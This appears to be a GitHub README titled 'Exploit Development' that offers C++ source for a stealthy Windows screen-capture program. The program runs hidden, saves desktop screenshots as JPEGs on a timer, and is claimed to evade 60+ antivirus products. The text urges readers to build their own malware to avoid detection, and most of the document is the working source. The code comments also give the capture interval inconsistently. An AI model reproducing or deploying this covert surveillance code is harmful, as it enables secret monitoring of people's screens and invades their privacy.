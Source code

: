 ## Exploit Development : Hidden Screen Catpure C++ (Stealth Mode) :

It is primary designed to be hidden and monitoring the computer activity. Take a screenshot of desktop in hidden mode using Visual C++ and save automatically to 'jpeg' file in every 30 second. 60+ Most Popular antivirus not detect this application while it is running on background.

### Why Programming Is Important for Hackers to Know :

Programming is an important skill that every self respecting hacker should master. here are some good examples of why it is important:

* <b>Building your own malware. </b>
When you program your own malware, there is no signature for it registered, thus making it pretty much impossible for AV software to detect.

* <b>Knowing how programs work will help you exploit them. </b>
though most exploit development is done in the assembly language in debuggers, knowing how a program works will help you exploit it faster.

* <b>Hacking tools are mostly open source. </b>
most hacking tools are open source, which means everyone can access the source code of said program. when you know how to program in the language the program is written, you can edit it and make it even better!

* <b>Making your own exploits. </b>
Though i recommend ruby & the Metasploit Framework for this purpose, ruby is still quite slow compared to C or C++. if you need your exploit to be fast, you can write it in C/C++.

i choose to make a series about C/C++ because C++ is a powerful language and is used in a lot of programs, like games. C is less powerfull but is still quite a low-level language, which means it interacts closely with the CPU. embedded devices are usually programmed in C aswell, from traffic lights to your microwave, will most likely run on some kind of software that is written in C.

### Prerequisites:

1. Microsoft Windows System
2. Visual Studio 2012

### Screenshot.zip (Files Included in Repo)

Contain Executable Version of Program. It run in Stealth Mode and Capture the Screenshot after 60 seconds of interval. Imaege name is based on Current System Time.

### Source Code :

```
#include <stdio.h>
#include <string>
#include <windows.h>
#include <wininet.h>
#include <winuser.h>
#include <conio.h>
#include <time.h>
#include <fstream>
#include <strsafe.h>
#include <io.h>
#include <crtdefs.h>
#include <fstream>
#include <GdiPlus.h>
#include <lmcons.h>

//char acUserName[100];

using namespace Gdiplus;
using namespace std;

fstream err("errormul.txt",ios::app);
fstream log_error_file("log_error.txt",ios::app);

#pragma comment(lib, "user32.lib") 
#pragma comment(lib,"Wininet.lib")
#pragma comment (lib,"gdiplus.lib")

void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;  // rectangle  Object

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);  //create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);  //copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;   //get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());  //sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder);   //save in jpeg format
	SelectObject(dc2,holdbitmap);  //Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int CmdShow)
{
	while(true){
	SYSTEMTIME st;  // create object of system time 
	GetLocalTime(&st);
	int year = st.wYear;  // extract year from system time
	int month = st.wMonth; // extract month from system time
	int day = st.wDay; // extract year day system time
	int hour = st.wHour; // extract year hours system time
	int mintue = st.wMinute; // extract mintue from system time

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M.jpg";

	string startDate;
	startDate =dayS + monthS + yearS + hourS + mintueS;  // create complete string of date and time
	
	screenshot(startDate);   // send string to screenshot function
	Sleep(1000*30*1);  // delay execution of function 60 Seconds
	}
}

```
## Version

1.7

## Authors

Ajay Randhawa
